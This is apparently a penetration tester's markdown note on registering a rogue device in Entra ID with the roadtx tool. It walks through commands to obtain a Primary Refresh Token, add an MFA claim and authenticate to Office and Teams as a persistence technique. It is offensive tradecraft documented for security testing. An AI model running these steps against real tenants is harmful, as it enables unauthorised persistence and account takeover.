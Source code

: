 ```yaml
---
title: Device Registration
---
```


Register a new device to obtain a [[notes/entra/prt]] as [[notes/entra/index]] [[notes/mitre-attack/persistence]] technique.

Get an authentication token for the device registration service.
This might require MFA, but often doesn't.

~~~ bash
roadtx gettokens -u john.doe@corp.com -p 'passw0rd' -r devicereg
~~~

Register a new device.

~~~ bash
roadtx device -n pentest1
~~~

Get a PRT for the device.
If device registration is possible without MFA the resulting PRT will miss the MFA claim.

~~~ bash
roadtx prt -u john.doe@corp.com -p 'passw0rd' --key-pem ./pentest1.key --cert-pem ./pentest1.pem
~~~

Do interactive MFA to add the MFA claim to the PRT.

~~~ bash
roadtx prtenrich
~~~

Use the PRT to browse a website as authenticated user.

~~~ bash
roadtx browserprtauth -url https://office.com
~~~

Authenticate with the PRT as Microsoft Teams client.

~~~ bash
roadtx prtauth -c msteams -r msgraph
~~~

Device registration variants ([source](https://twitter.com/lukasberancz/status/1629786547208740864)):

- Azure AD joined
    - Windows 10, Windows 11 or Windows Server 2019, Server 2022 running as Azure VM
    - corporate device
    - managed trough Intune or SCCM
    - PRT obtained via Cloud Authentication Provider (CloudAP)
- Azure AD registered
    - BOYD devices, often phones
    - supported by Windows 10, Windows 11, macOS, Ubuntu and mobile devices
    - PRT obtained via WAM
- Azure AD Hybrid Join
    - corporate device
    - joined to on-prem AD and registered on AAD
    - all Windows desktop and server versions
    - PRT obtained via CloudAP

References:

- [Automating Azure AD authentication, Primary Refresh Token (ab)use and device registration](http://web.archive.org/web/20221109155717/https://dirkjanm.io/introducing-roadtools-token-exchange-roadtx/), introduction of `roadtx`
- [RoadTX Wiki](https://github.com/dirkjanm/ROADtools/wiki/ROADtools-Token-eXchange-(roadtx))
- [Bypassing conditional access by faking device compliance](http://web.archive.org/web/20230110065457/https://aadinternals.com/post/mdm/)
